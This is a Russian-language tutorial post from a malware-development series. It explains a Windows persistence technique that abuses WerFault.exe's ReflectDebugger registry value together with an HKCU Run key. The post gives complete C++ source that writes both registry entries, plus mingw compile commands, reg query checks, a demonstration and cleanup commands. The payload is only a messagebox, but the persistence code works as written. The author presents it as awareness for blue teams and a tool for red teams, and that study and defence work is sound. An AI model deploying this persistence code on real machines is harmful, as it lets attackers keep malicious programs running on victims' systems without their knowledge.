



\newpage
\subsection{84. разработка вредоносного ПО: закрепление (persistence) - часть 18. Windows Error Reporting. Простой пример на C++.}

﷽

{width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник персистентности вредоносного ПО: через `WerFault.exe`.     

### WerFault.exe

Изучая поведение Windows Error Reporting, я наткнулся на интересный путь в реестре:     

`HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs`

Если выполнить команду `WerFault.exe -pr <значение>`, она считает `HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<путь_к_файлу>`. Эта команда запускает `WerFault.exe` в режиме *"reflective debugger"*, что довольно любопытно. Например, запустим `WerFault.exe -pr 1` и проверим через Sysinternals Process Monitor:     

{width="80%"}    

{width="80%"}    

Добавим еще один фильтр:    

{width="80%"}    

В результате у нас есть лазейка для подмены этого значения:     

{width="80%"}    

Итак, в чем трюк? Мы можем заменить значение реестра `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger` на наше вредоносное приложение, потому что `WerFault.exe` не только читает это значение, но и запускает его. Конечно, это можно использовать для персистентности.    

### практический пример

Для простоты, как обычно, мое "вредоносное" приложение - это просто `meow-meow` messagebox (`hack.cpp`):     

```cpp
/*
meow-meow messagebox
aвтор: @cocomelonc
*/
#include <windows.h>

#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

А затем создаем скрипт, который создаст ключ реестра со значением, указывающим на наше "вредоносное" приложение:    


```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegCloseKey(hkey);
  }
}
```

Также я использовал [один из классических приемов](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) для сохранения:

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
  strlen(wf));
  RegCloseKey(hkey);
}
```

В результате окончательный исходный код выглядит примерно так (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistense via WerFault.exe
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  // startup
  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
    strlen(wf));
    RegCloseKey(hkey);
  }
  return 0;
}
```

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наше "вредоносное" приложение:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

И скрипт персистентности:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Прежде чем запускать все, сначала проверяем ключи реестра и их значения:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

Запускаем "вредоносное" ПО для проверки корректности:     

```powershell
.\hack.exe
```

{width="80%"}    

Также проверяем ключи реестра, используемые в логике персистентности:     

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

{width="80%"}    

Теперь запускаем `pers.exe`:    

```powershell
.\pers.exe
```

И снова проверяем ключ реестра Windows Error Reporting:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

{width="80%"}    

Как можно видеть, значение ключа изменено, и мы можем проверить его корректность, запустив:    

```powershell
WerFault.exe -pr 1
```

{width="80%"}    

Затем выходим из системы и входим снова:    

{width="80%"}    

И через несколько секунд появляется наш `meow-meow` messagebox, как и ожидалось:    

{width="80%"}    

Можно проверить свойства `hack.exe` через Process Hacker 2:     

{width="80%"}    

Также обратите внимание, что для подмены Windows Error Reporting требуются права администратора, но для персистентности мы используем низкоуровневые привилегии:     

```powershell
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error \
Reporting\Hangs" -Name "ReflectDebugger"
Remove-ItemProperty -Path \
"HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "meow"
```

{width="80%"}    

{width="80%"}    

{width="80%"}    

Это можно заметить, если решите "вернуть все обратно".    

Таким образом, как можно видеть, все сработало идеально! =^..^=    

> Следующий должен был быть 17, но он выйдет вместе с третьей частью о краже токенов. Я 10 минут не мог понять, почему у меня ничего не работает :)    

{width="80%"}    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.    

[MSDN Windows Error Reporting](https://learn.microsoft.com/en-us/windows/win32/wer/windows-error-reporting)       
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1]((https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html))       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-11-02-malware-pers-18)     
